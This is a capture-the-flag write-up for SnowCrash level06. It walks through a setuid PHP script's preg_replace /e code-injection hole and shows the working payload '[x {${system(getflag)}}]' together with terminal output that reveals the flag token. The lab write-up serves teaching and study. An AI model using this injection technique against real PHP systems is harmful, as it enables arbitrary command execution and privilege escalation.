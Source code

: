 # level06

## Hint

As we log in the VM, we are greeted by two files, a binary and, believably, the PHP source for that binary.

```shell-session
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Since the binary has `suid` rights granted, it seems obvious that there is some priviledge rights escalation possible here. Lets look into the source file.

## the script

```php
#!/usr/bin/php
<?php
function y($m)
{
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}

function x($y, $z)
{
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

A quick lookup at the php documentation for `preg_replace()` tells us that there is a deprecated feature used in that code, that is the `/e` modifier for the regex.
> Deprecated: preg_replace(): The /e modifier is deprecated, use preg_replace_callback instead

One would wonder why this modifier is now deprecated, and one would easily find that it was the source for an RCE (Remote Code Execution) vulnerability.

Since this modifier made the match of that function call to be interpreted as PHP code, one could take advantage of a given script's rights to inject code and obtain unwarranted access, in time, to the entire filesystem.

## RCE

In order to actually inject code in that match, one must understand what pattern this regex match is aiming at.

Here's the signature of that function:

```php
<?php         //This is for syntax coloration
preg_replace(
    string|array $pattern,
    string|array $replacement,
    string|array $subject,
    int $limit = -1,
    int &$count = null
): string|array|null
?>
```

Here is the call with the deprecated feature:

```php
<?php //This is for syntax coloration
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
?>
```

So we're looking to write a string of this form:
> x[ something ]

Knowing that there is a way to call system-wide command from inside php code (namely the `system(<command>);` function, we just need to insert a call to that function in the regex match:

```shell-session
level06@SnowCrash:~$ echo '[x system(getflag)]' > /tmp/file.rce
level06@SnowCrash:~$ ./level06 /tmp/file.rce
No entry for terminal type "alacritty";
using dumb terminal settings.
system(getflag)
```

Unfortunately, this isn't enough, our call to the `system` function is not evaluated, and is considered a plain string. There is one last thing to try, though.

Php has a feature that lets PHP variables be evaluated in the middle of a string they are referenced in, it's called `complex syntax`.

```php
<?php
echo '{$var}'; // evaluates to the content of the variable called var
?>
```

```php
<?php
echo '{${var}}'; // evaluates to the content of the variable returned by the function (or method) called var
?>
```

To conclude, since `system` is a function, we can use the latter syntax to get what we want.

## getflag

```shell-session
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > /tmp/file.rce
level06@SnowCrash:~$ ./level06 /tmp/file.rce
No entry for terminal type "alacritty";
using dumb terminal settings.
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
